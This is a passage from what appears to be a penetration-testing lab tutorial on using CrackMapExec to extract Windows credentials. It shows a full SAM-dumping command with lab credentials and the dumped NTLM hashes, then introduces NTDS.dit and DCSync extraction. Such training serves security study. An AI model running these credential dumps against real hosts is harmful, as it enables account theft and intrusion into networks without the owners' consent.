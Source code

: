 # Finding Secrets and Using Them

When it comes to password extraction, CrackMapExec is very powerful. Imagine if we compromised ten workstations, and we want to dump the memory of the LSASS process to retrieve credentials from all of them; CrackMapExec can do it.

In this section, we will explore the methods CrackMapExec comes equipped with to dump Windows credentials.

***

## SAM

The SAM database contains credentials for all local users, and it is crucial to get them since many administrators reuse their local credentials on multiple machines. Using the option `--sam`, available with the `SMB` and `WinRM` protocols, we can quickly retrieve the contents of the SAM database.

### **Dumping SAM**

```shell-session
$ crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight01!' --sam

SMB         10.129.204.133  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:inlanefreight.htb) (signing:False) (SMBv1:False)
SMB         10.129.204.133  445    MS01             [+] inlanefreight.htb\robert:Inlanefreight01! (Pwn3d!)
SMB         10.129.204.133  445    MS01             [+] Dumping SAM hashes
SMB         10.129.204.133  445    MS01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:30b3783ce2abf1af70f77d0660cf3453:::
SMB         10.129.204.133  445    MS01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.204.133  445    MS01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.204.133  445    MS01             WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::
SMB         10.129.204.133  445    MS01             localadmin:1003:aad3b435b51404eeaad3b435b51404ee:7c08d63a2f48f045971bc2236ed3f3ac:::
SMB         10.129.204.133  445    MS01             sshd:1004:aad3b435b51404eeaad3b435b51404ee:d24156d278dfefe29553408e826a95f6:::
SMB         10.129.204.133  445    MS01             [+] Added 6 SAM hashes to the database
```

***

## NTDS Active Directory Database

Another location to obtain credentials from is the Active Directory database. The ntds.dit file is a database that stores Active Directory data, including information about user objects, groups, and group membership. Notably, the file also stores the password hashes for all users in the domain (and even sometimes stores cleartext passwords if [reversible encryption](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/store-passwords-using-reversible-encryption) is enabled for one or more accounts). We can dump the hashes from a Domain Controller if we get access to a Domain Admin account or any other account with privileges to perform a replication/DCSync.
